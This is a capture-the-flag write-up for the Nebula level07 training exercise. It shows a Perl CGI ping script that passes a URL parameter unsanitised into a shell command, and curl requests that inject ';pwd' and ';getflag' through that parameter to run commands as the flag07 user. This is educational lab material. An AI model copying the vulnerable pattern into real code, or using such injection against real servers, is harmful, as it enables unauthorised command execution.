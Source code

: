 ```yaml
---
title: "Exploit Exercises Nebula Level07"
date: "2016-02-14"
slug: "exploit-exercises-nebula-level07"
Categories:
- Exploit Exercises
---
```


The next level provides us with some perl code:


        #!/usr/bin/perl

        use CGI qw{param};

        print "Content-type: text/html\n\n";

        sub ping {
        $host = $_[0];

        print("<html><head><title>Ping results</title></head><body><pre>");

        @output = `ping -c 3 $host 2>&1`;
        foreach $line (@output) { print "$line"; }

        print("</pre></body></html>");

        }

        # check if Host set. if not, display normal page, etc

        ping(param("Host"));


<!--more-->

After logging into the system, I looked at the home directory for flag07:

        level07@nebula:/home/flag07$ ls -l
        total 5
        -rwxr-xr-x 1 root root  368 2011-11-20 21:22 index.cgi
        -rw-r--r-- 1 root root 3719 2011-11-20 21:22 thttpd.conf

It appears that the perl code provided is running on a web server. I investigated the contents of thttpd.conf to glean some more information:

        # Specifies an alternate port number to listen on.
        port=7007

        # Specifies what user to switch to after initialization when started as root.
        user=flag07

The config file reveals that the web server is running on port 7007 as the flag07 user.

        $ curl http://192.168.98.138:7007/index.cgi
        <html><head><title>Ping results</title></head><body><pre>Usage: ping [-LRUbdfnqrvVaAD] [-c count] [-i interval] [-w deadline]
            [-p pattern] [-s packetsize] [-t ttl] [-I interface]
            [-M pmtudisc-hint] [-m mark] [-S sndbuf]
            [-T tstamp-options] [-Q tos] [hop1 ...] destination

A quick curl command confirms that the web server is up, accessible, and running the perl ping code.

The code does not appear to be performing any input validation so lets try sending a semi-colon and an additional command at the Host parameter:

        $ curl http://192.168.98.138:7007/index.cgi?Host=%3B%20pwd
        <html><head><title>Ping results</title></head><body><pre>/home/flag07

Awesome! As you can see in the output, we can inject and run commands. Since the web server is running as flag07, let's run getflag.

        $ curl http://192.168.98.138:7007/index.cgi?Host=%3B%20getflag
        <html><head><title>Ping results</title></head><body><pre>You have successfully executed getflag on a target account

The command executed successfully. On to level08!

[Mike][]

[Level07]: https://exploit-exercises.com/nebula/level07/ "Level07"
[Mike]: /contact "Contact Mike"

